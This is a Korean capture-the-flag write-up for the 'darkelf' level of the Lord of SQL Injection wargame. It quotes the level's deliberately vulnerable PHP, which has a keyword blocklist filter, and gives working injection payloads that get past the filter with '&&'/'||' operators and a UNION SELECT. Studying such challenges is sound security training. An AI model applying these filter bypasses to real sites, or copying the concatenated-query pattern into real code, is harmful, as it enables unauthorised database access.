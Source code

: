 # Lord of SQL Injection No.6 - Darkelp
## 문제 출제 의도
1. 'and', 'or' 없이 SQL문을 조작 할 수 있는지 확인.
## 소스 코드
~~~
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect();  
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    if($result['id'] == 'admin') solve("darkelf"); 
    highlight_file(__FILE__); 
?>
~~~
## 분석 결론
+ 금지 문자, 문자열
    - GET방식으로 입력받은 pw값에 prob _ . () 중 하나라도 있다면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
    - GET방식으로 받은 pw값에 "or", "and"중 하나라도 있다면 "HeHe"가 출력되고 문제풀이에 실패한다.
+ 풀이 성공 조건
    - 데이터베이스에서 받아온 id 값이 'admin'이면 문제 풀이에 성공한다.
## 문제 해결
1. Query문 추가
    - And와 OR 우회
        1. AND는 기본적으로 &&로 우회가 가능하다.  
        그러나 이때 &는 파라미터 값으로 인식됨으로 %26으로 입력해야한다.
        2. OR는 기본적으로 ||로 우회가 가능하다.
    - 다음과 유사한 방법으로 WHERE조건절을 조작 할 수 있다.
    ~~~
    ?pw='%26%260||id='admin'-- -
    ~~~
2. UNION
    - 다음과 유사한 방법으로 빈 테이블에 추가 값을 가지고 올 수 있다.
    ~~~
    ?pw=' UNION(SELECT 'admin')-- -
    ~~~